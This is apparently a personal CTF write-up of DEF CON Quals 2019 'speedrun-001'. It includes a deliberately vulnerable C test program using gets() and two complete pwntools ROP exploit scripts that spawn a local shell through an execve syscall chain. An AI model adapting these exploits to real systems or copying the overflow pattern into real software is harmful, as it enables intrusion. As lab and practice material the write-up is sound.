


# SpeedRun 1

This is the first speedrun challenge for DEF CON Quals 2019. I did not have time to work on this problem for more than two hours during the actual CTF (and was not fast enough to solve it in two hours, so I ended up solving it after the competition and therefore could only develop a local exploit. The speedrun challenges look like they are intended to be a little simpler than the standard pwnable challenges: they are meant for people to practice their skills, and accordingly I found them instructive.

### Reconnaissance

The first speedrun challenge is a 64-bit ELF binary with no PIE, no canary, and partial RELRO. It's also statically linked, so it was obvious at a first glance that I would have access to any gadget I wished for ROP. Accordingly, my intuition was to find the buffer overflow vulnerability first.

IDA shows a large number of subprocesses. Also, the binary is protected by an alarm, but the call to `alarm` is obfuscated. Also, it appears that I cannot attach `GDB` to this process -- there is a security feature that I have not learned about that makes the binary difficult to debug. I thought about disabling the call to `alarm`, but first I just found the buffer overflow vulnerability.

The buffer overflow vulnerability is pretty obvious: the program asks the user for input, then echoes the input and exits. Here's the vulnerability viewed in Ghidra: my intuition is that because I'm reading up to 2000 characters into a 1024-character buffer, I should be able to overwrite the return address of this function and get control of `%rip`.



### Developing the Exploit

Because I can't attach a debugger, I have to either figure out how to defeat that security measure or else ROP this binary blind. I decided to ROP it blind for the practice and the challenge. My first question to answer was whether the string I enter can have null bytes. The string gets echoed back to me, but any bytes after the first null byte in the string will not get echoed.

Since I'm doing this blind, I started by passing in a string with 1024 bytes, eight bytes to overwrite the saved `%rbp`, and then the address of the code that greets the challenger. That successfully greeted me. Next, I put some null bytes in my payload prior to the return address, and verified that I could still jump to the code that greets the challenger. Great!

In order to write `/bin/sh` to the `.bss` section, I considered pivoting to the `.bss` section, then returning to the code that reads input from the user, and writing both `/bin/sh` and the continuation of the ROP chain to the `.bss` section. That indeed worked, but it turns out my solution was more complicated than it needed to be. The rest of the solution just involves setting up a ROP chain to call `execve()` with a pointer to a null-terminated `/bin/sh` as the first argument, NULL as the second argument, and NULL as the third argument. I was a little rusty in doing this, so doing it blind was difficult. I set up a vulnerable test program to which I could attach a debugger, and placed in the test program ROP gadgets that mirrored gadgets that I could find in `speedrun1`. Here's my test program:

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

char* global = "/bin//sh";

int fn1(void)
{   __asm__("pop %rdi;"
			"ret;"
			"pop %rsi;"
			"ret;"
			"pop %rax;"
			"ret;"
			"pop %rdx;"
			"ret;"
			"mov %rdi, (%rax);"
			"pop %rbx;"
			"ret;"
			"syscall");
}
int main (void)
{
  char input_buf[16];
  gets(input_buf);
  return 0;
}
```

(In the final exploit, I didn't need to use the global that I placed in the `.bss` section: I wrote `/bin/sh` to the `.bss` section myself.)

Notice one gadget that I found in `speedrun1`: `mov %rdi, (%rax)`. That lets me write `/bin/sh` to the `.bss` section directly.

With all that in place, here's the exploit code:
```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('[redacted]/speedrun-001')
	DELAY = 0.1

POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload += "A"*8 # New saved RBP
payload += p64(POP_RAX_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RDX_ADDR)
payload += p64(0x0)
payload += p64(POP_RDI_ADDR)
payload += p64(0x0068732f6e69622f)
payload += p64(MOV_RDI_RAX_ADDR)
payload += p64(0x0) # RBX gets popped too
payload += p64(POP_RDI_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RSI_ADDR)
payload += p64(0x0)
payload += p64(POP_RAX_ADDR)
payload += p64(0x3b)
payload += p64(SYSCALL_ADDR)
payload += "\n"
p.send(payload)
p.interactive()
```

Here's my version of the exploit that involves a pivot to the `.bss` section:

```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('./speedrun-001')
	DELAY = 0.1

#GREET_CHALLENGER_ADDR = 0x400b4d
BSS_ROOT = 0x6bb300 # was 0x404700
NEW_RBP = BSS_ROOT + 0x200
POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload = "A"*1024
payload += p64(NEW_RBP)
payload += p64(POP_RAX_ADDR)
payload += p64(NEW_RBP) # first 16 bytes are for
payload += p64(0x400b7e) # read stuff in

p.recvuntil("words?\n")
p.send(payload)
sleep(DELAY)

payload2 = "A"*8 # New saved RBP
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RDX_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(0x0068732f6e69622f)
payload2 += p64(MOV_RDI_RAX_ADDR)
payload2 += p64(0x0) # RBX gets popped too
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RSI_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(0x3b)
payload2 += p64(SYSCALL_ADDR)
payload2 += "\n"
p.send(payload2)

p.interactive()
```

That spawns a shell locally:



I can't get a remote shell because the competition has ended, but nonetheless that was a useful ROP review.

### Comparison to other approaches

[guyinatuxedo](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1) takes the same approach that I did. [k1nm3nh4ck3r](https://ctftime.org/writeup/15287) does everything from the command line, building up ROP gadgets in a note pad and then just executing the python code as a single line, directly in a terminal.
